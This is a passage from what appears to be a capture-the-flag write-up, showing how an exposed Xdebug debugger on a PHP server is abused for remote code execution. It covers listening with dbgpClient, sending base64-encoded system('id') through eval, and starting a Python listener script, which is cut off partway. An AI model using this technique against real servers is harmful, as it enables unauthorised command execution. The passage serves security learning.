 
There’s an Xdebug client that can be downloaded from
[here](https://xdebug.org/docs/dbgpClient), but it isn’t great. I’ll run it,
using `-p 9000` to listen on port 9000:

    
    
    oxdf@parrot$ ./dbgpClient -p 9000
    Xdebug Simple DBGp client (0.4.2)
    Copyright 2019-2020 by Derick Rethans
    In dumb client mode
    
    Waiting for debug server to connect on port 9000.
    

Now I’ll trigger the curl, and there’s a connection:

    
    
    Waiting for debug server to connect on port 9000.
    Connect from 172.30.0.1:51018
    DBGp/1.0: Xdebug 2.6.0 — For PHP 7.2.1-1ubuntu2
    Debugging file:///var/www/html/info.php (ID: 43/0xdf)
    (cmd)
    

The command syntax is weird. There’s an `eval` command, and the syntax is
`eval -i [id] -- {base64 encoded command}`. So if I wanted to run `id`, first
I need to encode the PHP:

    
    
    oxdf@parrot$ echo 'system("id");' | base64
    c3lzdGVtKCJpZCIpOwo=
    

And now send it:

    
    
    (cmd) eval -i 1 -- c3lzdGVtKCJpZCIpOwo=;
    1 | eval
    1 | string : uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Still, as clunky as that is, it’s RCE.

#### Script

I’ll write a short Python script that will handle this connection, get a
command, decode the response, and print it:

    
    
    #!/usr/bin/env python    
        
    import base64    
    import re    
    import socket    
        
    
    res_re = re.compile(r'\<\!\[CDATA\[([A-Za-z0-9+/]+={0,2})\]\]\>')    
    ip_port = ('0.0.0.0', 9000)    
    sk = socket.socket()
    sk.bind(ip_port)
    sk.listen(10)
    conn, addr = sk.accept()
    client_data = conn.recv(1024)
    